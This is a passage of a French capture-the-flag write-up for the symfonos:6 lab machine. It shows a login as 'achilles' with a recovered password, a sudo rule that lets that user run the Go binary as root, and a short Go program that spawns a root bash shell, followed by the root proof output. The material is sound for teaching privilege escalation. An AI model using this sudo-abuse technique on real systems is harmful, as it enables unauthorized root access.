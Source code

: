 ## Go go gadgeto shell

Cette fois le mot de passe `h2sBr9gryBunKdF9` permet de se connecter en tant que `achilles` via `su`.

Cette utilisateur peut utiliser l'outil du langage `Golang` en tant que root :

```bash
[achilles@symfonos6 git]$ sudo -l
Entrées par défaut pour achilles sur symfonos6 :
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

L'utilisateur achilles peut utiliser les commandes suivantes sur symfonos6 :
    (ALL) NOPASSWD: /usr/local/go/bin/go
```

C'est certainement une vieille version car `go mod init` n'est pas supporté ici.

J'ai écrit ce code `Go` qui appelle bash en redirigeant les entrées / sorties :

```go
package main

import (
    "fmt"
    "os"
    "os/exec"
)

func main() {
    cmd := exec.Command("bash")
    cmd.Stdin = os.Stdin
    cmd.Stdout = os.Stdout
    cmd.Stderr = os.Stderr
    if err := cmd.Run(); err != nil {
        fmt.Println("Failed to start bash:", err)
    }
}
```

Et ça fonctionne :

```bash
[achilles@symfonos6 ~]$ sudo /usr/local/go/bin/go run gotroot.go 
[root@symfonos6 achilles]# id
uid=0(root) gid=0(root) groupes=0(root)
[root@symfonos6 achilles]# cd /root
[root@symfonos6 ~]# ls
proof.txt  scripts
[root@symfonos6 ~]# cat proof.txt

           Congrats on rooting symfonos:6!
                  ,_---~~~~~----._         
           _,,_,*^____      _____``*g*\"*, 
          / __/ /'     ^.  /      \ ^@q   f 
         [  @f | @))    |  | @))   l  0 _/  
          \`/   \~____ / __ \_____/    \   
           |           _l__l_           I   
           }          [______]           I  
           ]            | | |            |  
           ]             ~ ~             |  
           |                            |   
```